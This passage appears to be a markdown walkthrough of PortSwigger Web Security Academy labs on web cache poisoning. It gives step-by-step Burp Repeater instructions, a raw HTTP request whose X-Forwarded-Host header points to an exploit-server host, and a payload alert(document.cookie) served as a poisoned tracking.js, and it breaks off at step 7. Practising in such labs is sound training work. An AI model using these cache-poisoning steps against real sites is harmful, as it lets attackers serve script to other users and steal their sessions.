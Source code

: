 12. Go back to Burp Repeater, remove the cache buster, and resend the request until you poison the cache again.
13. To simulate the victim, reload the home page in your browser and make sure that the ``alert()`` fires.
14. Keep replaying the request to keep the cache poisoned until the victim visits the site and the lab is solved.

example:
```bash
GET /resources/js/tracking.js HTTP/2
Host: blabla.web-security-academy.net
Cookie: session=dmkTA3BT9tmM6ZFfZX6SwGicyIMxypiE
User-Agent: summ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Forwarded-Host: exploit-0a3900e60495791f80d4936101ac0095.exploit-server.net
X-Forwarded-Scheme: nothttps


```

## Targeted web cache poisoning using an unknown header
Reference: https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header


### Quick Solution
This is **multi-step** lab. The first thing to do is notice that the ``Vary`` header is used by the backend service. To target the correct user we need to identify their ``User Agent``. In order to do that we can leverage the HTML features in the comments. Once we have done that we can prepare a simple web-cache-poisoning attack as in the previous labs.


### Solution
Solving this lab requires multiple steps. First, you need to identify where the vulnerability is and study how the cache behaves. You then need to find a way of targeting the right subset of users before finally poisoning the cache accordingly.

1. With Burp running, load the website's home page.
2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the ``GET`` request for the home page.
3. With the Param Miner extension enabled, right-click on the request and select "Guess headers". After a while, Param Miner will report that there is a secret input in the form of the ``X-Host`` header.
4. Send the ``GET`` request to Burp Repeater and add a cache-buster query parameter.
5. Add the ``X-Host`` header with an arbitrary hostname, such as example.com. Notice that the value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at ``/resources/js/tracking.js``.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:
```
/resources/js/tracking.js
```
7. In the body, enter the payload ``alert(document.cookie)`` and store the exploit.